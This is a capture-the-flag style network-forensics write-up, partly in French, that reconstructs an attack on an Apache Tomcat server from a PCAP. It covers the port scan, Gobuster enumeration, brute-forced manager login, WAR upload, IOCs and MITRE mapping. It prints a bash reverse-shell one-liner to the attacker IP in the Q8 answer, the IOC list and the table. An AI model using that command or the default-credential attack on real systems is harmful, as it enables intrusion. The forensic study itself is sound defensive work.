










# Tomcat Takeover Lab
## Category
Network Forensics

## Scenario
 The SOC team has identified suspicious activity on a web server within the company's intranet. To better understand the situation, they have captured network traffic for analysis. The PCAP file may contain evidence of malicious activities that led to the compromise of the Apache Tomcat web server. Your task is to analyze the PCAP file to understand the scope of the attack.

## Tools Used
- Wireshark
- ipgeolocation.io

## Walkthrough

### Q1 — Given the suspicious activity detected on the web server, the PCAP file reveals a series of requests across various ports, indicating potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?
**What I did:** Premièrement, j'ai accédé à Statistics &gt; Conversations dans Wireshark pour comprendre le contenu général du trafic.
**What I found:** J'ai trouvé plusieurs conversations avec des adresses IP du même réseau, à l'exception d'une seule qui ressortait du lot.
**Answer:** `14.0.0.120`

### Q2 — Based on the identified IP address associated with the attacker, can you identify the country from which the attacker's activities originated?
**What I did:** J'ai utilisé le site ipgeolocation.io pour obtenir des informations géographiques à partir de l'IP identifiée.
**What I found:** En entrant l'IP, j'ai reçu une liste d'informations concernant cette dernière, notamment son pays d'origine.
**Answer:** China

### Q3 — From the PCAP file, multiple open ports were detected as a result of the attacker's active scan. Which of these ports provides access to the web server admin panel?
**What I did:** Si un port donne accès au serveur web, il y aura nécessairement du trafic HTTP. J'ai utilisé cela pour filtrer le trafic avec le filtre `http`.
**What I found:** Après le filtrage, j'ai utilisé Statistics &gt; Conversations pour voir les conversations du trafic filtré, ce qui m'a permis d'identifier le port utilisé.
**Answer:** `8080`

### Q4 — Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
**What I did:** Puisque l'attaquant a utilisé l'énumération pour découvrir les répertoires du site, le type de paquets à chercher est donc HTTP avec la méthode GET. J'ai filtré le trafic avec `http.request.method == "GET"`.
**What I found:** J'ai trouvé l'outil utilisé dans la section User-Agent des requêtes HTTP.
**Answer:** Gobuster

### Q5 — After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?
**What I did:** J'ai filtré le trafic pour n'afficher que les paquets HTTP avec une réponse différente du code 404, en utilisant un filtre comme `http.response.code != 404`.
**What I found:** Avec ce trafic filtré, j'ai pu accéder au Follow TCP Stream, c'est là que les détails se trouvaient.
**Answer:** `/manager`

### Q6 — After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?
**What I did:** J'ai filtré le trafic pour n'afficher que les paquets HTTP contenant des informations d'authentification, en cherchant les headers `Authorization`.
**What I found:** J'ai accédé aux détails du dernier paquet de connexion pour voir les informations d'authentification utilisées avec succès.
**Answer:** `admin:tomcat`

### Q7 — Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?
**What I did:** Du fait que l'attaquant a téléversé un fichier malveillant, j'ai filtré le trafic pour n'afficher que les paquets HTTP contenant la méthode POST avec `http.request.method == "POST"`.
**What I found:** J'ai trouvé un paquet segmenté, donc j'ai utilisé Follow &gt; HTTP Stream pour regrouper les segments et voir le contenu complet.
**Answer:** `JXQOZY.war`

### Q8 — After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?
**What I did:** J'ai utilisé Follow TCP Stream sur le trafic contenant les paquets d'authentification, puis j'ai incrémenté le numéro de stream. Du fait que la tentative d'établir une reverse shell intervient logiquement après la tentative réussie de connexion.
**What I found:** J'ai trouvé un stream de commandes où l'attaquant exécute des commandes système pour identifier leur lieu, leur identité, et tente d'établir la reverse shell.
**Answer:** `/bin/bash -c 'bash -i &gt;& /dev/tcp/14.0.0.120/443 0&gt;&1'`

## Incident Timeline
- t=346.031483 : L'attaquant commence la phase de reconnaissance en envoyant des paquets SYN pour trouver les ports ouverts.
- t=346.032874 : L'attaquant reçoit une réponse de type ACK du port 8080 qui donne un accès au serveur web.
- t=386.466599 : L'attaquant commence à utiliser Gobuster afin d'énumérer les répertoires de ce serveur.
- t=409.531388 : Accès au répertoire `/manager` par l'attaquant après l'énumération.
- t=556.169867 : L'attaquant tente de créer une reverse shell en téléversant un fichier malveillant.
- t=669.793931 : Établissement de la reverse shell visant à maintenir la persistance sur la machine compromise.

## Indicators of Compromise (IOCs)
- IP ADDRESS: 14.0.0.120
- PORT: 8080
- TOOL : Gobuster/3.1.0
- CREDENTIALS : admin:tomcat
- URL : /manager
- FILENAME : JXQOZY.war
- COMMAND : /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
- COUNTRY : china

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name | Description |
|-------|-------------|----------------|-------------|
| Reconnaissance | T1046 | Network Service Discovery | L'attaquant effectue un scan de ports en envoyant des paquets SYN pour identifier les services ouverts sur le serveur cible. |
| Discovery | T1083 | File and Directory Discovery | Utilisation de Gobuster pour énumérer les répertoires et fichiers présents sur le serveur web. |
| Initial Access | T1110 | Brute Force | Tentatives répétées de connexion au panel `/manager` avec différentes combinaisons d'identifiants jusqu'à obtention de `admin:tomcat`. |
| Initial Access | T1190 | Exploit Public-Facing Application | Exploitation de l'interface d'administration Tomcat Manager exposée sur le port 8080. |
| Persistence | T1505.003 | Web Shell | Téléversement du fichier malveillant `JXQOZY.war` permettant le déploiement d'une web shell sur le serveur. |
| Execution | T1059.004 | Command and Scripting Interpreter: Unix Shell | Établissement d'un reverse shell via `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`. |
| Persistence | T1053.003 | Scheduled Task/Job: Cron | La commande du reverse shell est planifiée via crontab pour assurer la persistance sur la machine compromise. |
